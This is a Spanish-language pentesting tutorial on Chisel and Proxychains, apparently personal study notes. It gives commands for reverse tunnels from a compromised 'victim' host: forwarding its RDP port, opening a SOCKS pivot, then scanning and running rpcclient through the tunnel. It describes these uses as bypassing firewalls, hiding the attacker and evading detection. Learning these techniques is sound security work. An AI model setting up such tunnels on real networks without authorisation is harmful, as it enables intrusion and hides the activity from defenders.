 # 🚀 Herramientas de Túneles y Proxies en Pentesting

Este documento explica el uso de **Chisel** y **Proxychains**, herramientas muy útiles para pentesting y movimientos laterales dentro de redes comprometidas.

---

# **1️⃣ Chisel**

### **Qué es**
- Chisel es una **herramienta de túneles TCP/UDP** que permite **redirigir tráfico a través de conexiones HTTP o HTTPS**.
- Muy utilizada en pentesting para **bypassear firewalls y NAT**, creando túneles entre una máquina atacante y un host comprometido.

### **Cómo funciona**
- Funciona en **modo servidor y cliente**:
  - **Servidor**: en la máquina atacante, escucha conexiones entrantes.  
  - **Cliente**: en la máquina víctima, se conecta al servidor y redirige tráfico local hacia él.

---

## **Ejemplo 1: Redirección básica de un puerto**
**Servidor (atacante):**
```bash
chisel server -p 8080 --reverse
```

En la **máquina víctima (cliente)**:

```bash
chisel client 10.0.0.5:8080 R:3389:127.0.0.1:3389
```

* Esto crea un túnel inverso, redirigiendo el **RDP (3389)** de la víctima hacia el atacante.



## Ejemplo 2: Redirección de todos los puertos (Pivoting)
En la **máquina atacante (servidor)**:

```bash
chisel server --reverse -p 4455 
```

En la maquina(victima) pivoting vamos a reenviar el trafico

```bash
chisel.exe client 10.250.1.6:4455 R:socks
```
* Esto crea un túnel SOCKS, permitiendo que el atacante redirija todo el tráfico a través de la víctima.


**Configuración de Chisel con Proxychains**
```bash
sudo nano /etc/proxychains4.conf 
```
* El puerto 1080 corresponde al proxy SOCKS que crea Chisel.
* Agrega la siguiente línea al final del archivo: 

**Se agrega la siguiente linea de configuracion**

```bash
socks5 127.0.0.1 1080
```

* Esto permite que cualquier aplicación que use Proxychains se conecte a través del túnel creado por Chisel.

**Uso típico en pentesting:**

* Acceso remoto a servicios internos de la red víctima.
* Bypass de firewalls y NAT sin abrir puertos directos.

-----

# **2️⃣ Proxychains**

**Qué es:**

* Proxychains es una **herramienta que fuerza el tráfico de una aplicación a través de proxies** (HTTP, SOCKS4/5).
* Permite **ocultar la IP del atacante** o **penetrar redes restringidas** usando un proxy intermedio.

**Cómo funciona:**

* Se configura un archivo `proxychains.conf` con proxies disponibles.
* Luego ejecutas cualquier comando con `proxychains`, y su tráfico pasará por los proxies configurados.

**Ejemplo básico:**

```bash
proxychains nmap -sT -Pn 10.0.0.0/24
```
**Ejemplo Con rpcclient**

* listar los usuario.

```bash
proxychains4 rpcclient -U 'John%VerySafePassword!' 10.200.150.10 
```

**Esto fuerza que la conexión pase por la cadena de proxies definida, protegiendo la identidad del atacante.**


## Uso típico en pentesting:

* Escanear redes internas desde un punto externo.
* Ocultar la identidad del atacante.
* Encadenar múltiples proxies para anonimato o evadir detección.

---

## Resumen rápido:

| Herramienta | Propósito principal                                | Uso típico                                    |
| ----------- | -------------------------------------------------- | --------------------------------------------- |
| Chisel      | Crear túneles TCP/UDP a través de HTTP/HTTPS       | Acceso remoto, bypass de firewalls/NAT        |
| Proxychains | Forzar tráfico de aplicaciones a través de proxies | Anonimato, evadir filtrado, pentesting remoto |

---